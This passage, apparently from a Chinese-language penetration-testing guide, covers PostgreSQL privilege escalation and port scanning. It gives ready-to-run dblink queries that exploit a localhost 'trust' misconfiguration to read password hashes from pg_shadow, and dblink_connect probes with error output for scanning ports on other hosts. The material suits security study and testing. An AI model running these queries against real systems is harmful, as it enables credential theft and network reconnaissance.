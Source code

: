 如果您已经在受害者内部获得了 shell，这种情况非常有用，因为它将允许您连接到 postgresql 数据库。

 

另一种可能的错误配置如下：

host  all   all   127.0.0.1/32  trust

 

由于它将允许来自本地主机的所有人以任何用户身份连接到数据库。 在这种情况下，如果**dblink**函数**正常工作**，您可以通过通过已建立的连接连接到数据库，并访问本不应访问的数据来**提升权限**：

```postgresql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```



**端口扫描**

利用 dblink_connect，您还可以**搜索开放端口**。如果该**函数不起作用，您应该尝试使用 dblink_connect_u()，因为文档中指出 dblink_connect_u() 与 dblink_connect() 相同，只是它允许非超级用户使用任何身份验证方法连接。

```postgresql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```

